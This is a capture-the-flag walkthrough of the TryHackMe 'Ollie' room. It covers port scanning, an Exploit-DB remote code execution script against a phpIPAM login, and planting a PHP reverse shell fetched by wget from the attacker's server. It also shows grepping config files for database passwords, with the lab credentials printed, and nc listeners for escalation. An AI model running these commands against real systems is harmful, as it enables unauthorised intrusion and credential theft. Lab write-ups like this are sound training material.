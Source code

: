 # Ollie

**Room Link:** [https://tryhackme.com/room/ollie](https://tryhackme.com/room/ollie)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (2).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/1337 - waste

**Kali**

```
nc -v $VICTIM 1337
```



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Browser**

```
Username: admin
Password: OllieUnixMontgomery!
```



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Exploit:** [https://www.exploit-db.com/raw/50963](https://www.exploit-db.com/raw/50963)



**Kali**

```
python3 exploit.py  -usr admin -pwd OllieUnixMontgomery! -cmd 'whoami' -url http://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can run commands from the browser as well.

<figure><img src="../../.gitbook/assets/image (633).png" alt=""><figcaption></figcaption></figure>

Got this php reverse shell, just changed the IP

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell
cd php-reverse-shell
subl php-reverse-shell.php 
python2 -m SimpleHTTPServer 81
```

**Kali**

```
nc -lvnp 1234
```

We have access to write to the immaolllieeboyyy directory so we put our shell there.

**Browser**

```
wget http://$KALI:81/php-reverse-shell.php -O immaolllieeboyyy/test.php
```

**Browser**

<pre><code><strong>http://VICTIM:/immaolllieeboyyy/test.php
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (635).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (636).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

**Victim**

```
cd /var/www/html
grep -ir "pass" config.php -A4 -B4
```

<figure><img src="../../.gitbook/assets/image (637).png" alt=""><figcaption></figcaption></figure>

We can login to mysql but didn't find anything

**Victim**

```
mysql -uphpipam_ollie -pIamDah1337estHackerDog!
```



**Victim**

```
su ollie
Password: OllieUnixMontgomery!
```

<figure><img src="../../.gitbook/assets/image (638).png" alt=""><figcaption></figcaption></figure>

## PSPY

**Kali**

```
wget http://$KALI:81/pspy32 
chmod +x pspy32 
./pspy32 
```

**Victim**

```
cd /tmp/
wget http://10.10.231.159:81/pspy32 
chmod +x pspy32 
./pspy32
find / -name "feedme" 2>/dev/null 
```

<figure><img src="../../.gitbook/assets/image (640).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

<figure><img src="../../.gitbook/assets/image (641).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (642).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1338
```

<figure><img src="../../.gitbook/assets/image (643).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (644).png" alt=""><figcaption></figcaption></figure>
